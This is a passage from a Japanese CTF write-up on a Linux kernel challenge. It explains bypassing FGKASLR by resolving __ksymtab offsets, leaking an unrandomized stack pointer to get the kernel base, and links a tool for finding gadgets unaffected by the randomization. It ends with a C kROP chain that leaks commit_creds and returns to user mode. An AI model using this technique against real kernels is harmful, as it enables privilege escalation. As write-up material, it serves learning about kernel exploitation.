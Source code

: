 ```kernel/module.c
}

static const char *kernel_symbol_name(const struct kernel_symbol *sym)
{
#ifdef CONFIG_HAVE_ARCH_PREL32_RELOCATIONS
	return offset_to_ptr(&sym->name_offset);
#else
	return sym->name;
#endif
}
```
```include/linux/compiler.h
static inline void *offset_to_ptr(const int *off)
{
	return (void *)((unsigned long)off + *off);
}
```
要は、そのエントリのアドレスに対してそのエントリの持つ値を足してやれば、そのエントリの示すシンボルのアドレス、および`__kstrtab_xxx`のアドレスになるというわけである。そして、幸いなことにこのエントリ達はreadableなデータであり、FGKASLRの影響を受けない(KASLRの影響は受ける)。よって、この`__ksymtab_xxx`のアドレス、厳密にはこの配列のインデックスも固定であるためその内のどれか(一番最初のエントリは`ffffffff81f85198 r __ksymtab_IO_APIC_get_PCI_irq_vector`)が分かればFGKASLRを完全に無効化したことになる。

## find not-randomized pointer to leak kernbase
だがまだ進捗は全く出ていない。この`__ksymtab_xxx`のアドレス自体を決定する必要がある。今回は最初スタックからしかleakできないため、このstackをとにかく血眼になって**FGKASLRの影響を受けていないポインタを探す**。以下のように、`$RSP-38*0x8`にあるポインタがKASLR有効の状態で何回か試しても影響を受けていなかった。
![](https://i.imgur.com/JerhJbI.png)

これで、kernbaseのリークができたことになる。すなわち、`__ksymtab_xxx`の全てのアドレスもleakできたことになる。　

## find gadget to leak the data of __ksymtab_xxx
さて、`__ksymtab_xxx`のアドレスが分かったが、今度はこの中身を抜くためのガジェットが必要になる。このガジェットも勿論、FGKASLRの影響を受けないような関数から取ってこなくてはならない。**ROP問って、ただガジェット探す時間が多くなるから嫌い**。。。
ということで、 **rp++** のラッパーとしてFGKASLRに影響されないようなガジェットを探してくれるシンプルツールを書きました。まだまだバグだらけだけど、ゼロから探すよりかは8億倍楽だと思う。
https://github.com/smallkirby/kernelpwn/tree/master/tools

これを使うと、以下のような感じでFGKASLRの影響を受けないシンボルだけを探してくれて。
![](https://i.imgur.com/jBITlkf.png)
実際に、これはFGKASLRの影響を受けていないことが分かる。こうなればあとは、ただのkROP問題だ。
![](https://i.imgur.com/ST88Q7X.png)

これを使って、gadgetを探して以下のようなchainを組んだ。
```chain-to-leak-ksymtab.asm
  // leak symbols from __ksymtab_xxx
  save_state();
  ulong *c = &wbuf[CANARY_OFF];
  memset(wbuf, 'A', 0x200);
  *c++ = canary;
  *c++ = '1'; // rbx
  *c++ = '2'; // r12
  *c++ = '3'; // rbp
  *c++ = kernbase + 0x4D11; // pop rax
  *c++ = kernbase + 0xf87d90; // __ksymtab_commit_creds
  *c++ = kernbase + 0x015a80; // mov eax, dword[rax]; pop rbp;
  *c++ = 'A'; // rbp
  *c++ = kernbase + 0x200f23; // go home(swapgs & iretq)
  for(int ix=0; ix!=5; ++ix) // rcx, rdx, rsi, rdi, none
    *c++ = 'A' + ix + 1;
  *c++ = &NIRUGIRI;
  *c++ = user_cs;
  *c++ = user_rflags;
  *c++ = user_sp;
```